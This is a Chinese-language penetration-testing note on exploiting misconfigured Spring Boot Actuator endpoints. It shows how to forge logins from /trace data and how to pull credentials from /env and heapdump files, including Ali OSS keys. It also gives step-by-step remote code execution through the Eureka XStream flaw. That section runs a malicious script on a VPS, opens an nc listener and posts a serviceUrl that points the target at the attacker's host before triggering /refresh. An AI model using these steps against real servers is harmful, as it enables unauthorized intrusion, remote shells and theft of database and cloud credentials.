 ## 漏洞概述

Actuator是Spring Boot提供的服务监控和管理中间件，默认配置会出现接口未授权访问，部分接口会泄露网站流量信息和内存信息等，使用Jolokia库特性甚至可以远程执行任意代码，获取服务器权限。

## 影响范围

```http
Spring Boot < 1.5 默认未授权访问所有端点
```

## 端点功能描述

每个端点的功能描述

```swift
路径           描述
/autoconfig    提供了一份自动配置报告，记录哪些自动配置条件通过了，哪些没通过
/beans         描述应用程序上下文里全部的Bean，以及它们的关系
/env           获取全部环境属性
/configprops   描述配置属性(包含默认值)如何注入Bean
/dump          获取线程活动的快照
/health        报告应用程序的健康指标，这些值由HealthIndicator的实现类提供
/info          获取应用程序的定制信息，这些信息由info打头的属性提供
/mappings      描述全部的URI路径，以及它们和控制器(包含Actuator端点)的映射关系
/metrics       报告各种应用程序度量信息，比如内存用量和HTTP请求计数
/shutdown      关闭应用程序，要求endpoints.shutdown.enabled设置为true
/trace         提供基本的HTTP请求跟踪信息(时间戳、HTTP头等)
```

Spring Boot 1.x 版本端点在根URL下注册

```http
http://xxx.com/env
```

Spring Boot 2.x 版本端点移动到/actuator/路径

```http
http://xxx.com/actuator/env
```

实战中端点可能存放在多级目录下

## 端点利用

| 端点     | 利用方式                                           |
| -------- | -------------------------------------------------- |
| trace    | 获取到近期服务器收到的请求信息，伪造cookie进行登录 |
| env      | 数据库账户等环境配置信息泄漏                       |
| heapdump | 信息下载                                           |

## env端点配置不当造成RCE

```http
条件：Eureka-Client <1.8.7（多见于Spring Cloud Netflix）
比如测试前台json报错泄露包名就是使用 netflix
```

需要以下两个包

spring-boot-starter-actuator（/refresh刷新配置需要）

spring-cloud-starter-netflix-eureka-client（功能依赖）

1、在vps服务器运行恶意构造的脚本

```bash
python env.py
```

2、在VPS用NC监听

```bash
nc -lvnp 1234
```

3、写入配置，访问/env端点

抓包将get请求改为post请求，post内容为（该ip为脚本启动的机器的ip）：

```http
eureka.client.serviceUrl.defaultZone=http://VPS-IP:2222/xstream
```

然后再访问/refresh,抓包将get请求更改为post请求，post数据随意

```http
POST /refresh
```

## SpringBoot heapdump信息泄露利用

SpringBoot heapdump可下载，导致泄露数据库连接信息以及Ali OSS key信息

1、访问以下路径能成功下载 `heapdump`

```http
https://xxx.com//actuator/heapdump
```

2、使用[VisualVM](http://visualvm.github.io/download.html)打开heapdump文件

点击Objects查看泄露的信息（可过滤）

得到alioss key之后即可使用[OSS Browser](https://github.com/aliyun/oss-browser)登录到**OSS**

## Jolokia漏洞利用（RCE）

https://xz.aliyun.com/t/7811
